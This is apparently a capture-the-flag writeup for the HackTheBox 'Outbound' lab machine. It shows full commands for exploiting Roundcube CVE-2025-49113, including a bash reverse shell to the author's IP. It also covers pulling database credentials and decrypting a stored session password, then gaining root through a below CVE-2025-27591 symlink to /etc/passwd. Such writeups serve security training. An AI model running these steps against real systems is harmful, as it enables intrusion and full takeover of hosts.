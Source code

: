 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


Kicking off my return to HackTheBox after a long break, I stumbled upon an intriguing new machine—Outbound. Ready to dust off my hacking skills, I jumped straight into action by quickly setting up the VPN connection:

sudo openvpn outbound.ovpn


i poked at the box with an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
Here's the result of the scan:
![namp](/outbound.png)

I discovered two open ports: 22 (SSH) and 80 (HTTP).

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, so I added the following line to my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```

After refreshing the page, I reached a Roundcube webmail login. Interestingly, the login credentials were provided directly on the page:
![machine](/htb.png)
After logging in, I quickly noticed the Roundcube version had a vulnerability: CVE-2025-49113.
(Quick reminder: Always check the software version for known CVEs!)

Next, I started a listener on my attacker machine:

```bash
nc -nlvp 4444
```
Then, on the target, I cloned the exploit repository and executed the exploit:

```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
Now, with a shell as www-data amd you can see the exploit executed sucessfully 

![www-data](/htb2.png)
After this, I began looking around for important files and directories. Eventually, I came across the config directory located at:
```bash
 /var/www/html/roundcube/public_html/roundcube/config
``` 
Inside this directory, I found the config.inc.php file  

![Image](/config.png)

Now, since I had the database credentials clearly listed in the config.inc.php file, I could interact directly with the database. 
The credentials were as follows:

```bash
DB User: roundcube  
DB Pass: RCDBPass2025  
DB Name: roundcube  
```

inside the database, I found the tables containing users and sessions. Although the users table didn’t contain any passwords, the sessions table looked promising.
 I discovered these tables after running the SQL command SHOW TABLES;, which helped me quickly determine what to examine further.

```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;

```
The session data caught my attention because it was encoded in Base64, indicating that I'd need to decode it to find anything useful.
![Base64](/sessions.png)

I proceeded to decode the session data, and upon decoding it, I obtained the following output:
![carbon](/carbon.png)

First, I decoded the session data using CyberChef.io, 

![decode](/decode.png)


carefully going through each entry one at a time. While decoding, I initially came across Tyler's credentials, which I already had, so I continued searching.

 Soon after, I discovered Jacob's session data, which contained an encrypted password—exactly what I was looking for.

To clearly view the decoded data, I first decoded the session using CyberChef’s Base64 decode operation with the "Y64" option.

The next step was decrypting Jacob's password. Previously, I had located an encryption key (rcmail-!24ByteDESkey*Str) in the config.inc.php file, which was crucial for this task.

After doing some additional research, I learned that Roundcube employs the Triple DES (DES-EDE3-CBC) encryption method.

Equipped with this information, I converted Jacob's Base64-encoded session data into Hex format and then successfully decrypted it with Triple DES using CyberChef.
and i got the access using password then 

![jacobpass](/jacobpass.png)

after this we found ssh login ssh jacob@10.10.11.77 and his password to ssh  gY4Wr3a1evp4 

![userflag](/userflag.png)

and we successfully found user flag here :)

Now its time to get root access so lets start -->
I started checking which commands jacob can run with root permissions without needing a password:

```bash
sudo -l

```
then i got the result like this 
```bash
(ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*

```
This means:

Jacob can run /usr/bin/below as root without a password.

But he can't use the --config, --debug, or -d arguments.

This showed clearly that I had permission to run /usr/bin/below as root, without providing a password. However, certain parameters (--config, --debug, and -d) were blocked.

To understand if this binary had known security issues, I checked its version and searched online using terms like:

![below](/below.png)

bingo :) we found the CVE exploit on it 
The vulnerability (CVE-2025-27591) is related to improper handling of log files by the /usr/bin/below binary. When you run /usr/bin/below as root, it makes a log file (error_root.log) writable by anyone.
I can abuse this by creating a symbolic link from the log file to the system's user-password file (/etc/passwd), allowing us to write directly into this critical file
here are the steps you have to use to get root :
Go to /var/log/below 
create new user with this payload in jacob's access 
```bash
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2

```
next, Remove the original log file

```bash
rm error_root.log
```
Then create a symbolic link to the critical file (/etc/passwd)

```bash
ln -s /etc/passwd /var/log/below/error_root.log
```
Now, trigger the vulnerability by running

```bash 
sudo /usr/bin/below
```
This action sets the log file (error_root.log) permissions to writable, and since it's linked to /etc/passwd, this makes /etc/passwd writable.

Then, overwrite /etc/passwd with your malicious user entry

```bash
cp root2 error_root.log
```
Finally, switch to your newly created root-level user

```bash
su root2
```
Got the root :) 
![rootq](/root.png)

[![Outbound Machine Achievement](/machine.png)](https://labs.hackthebox.com/achievement/machine/205810/672)
 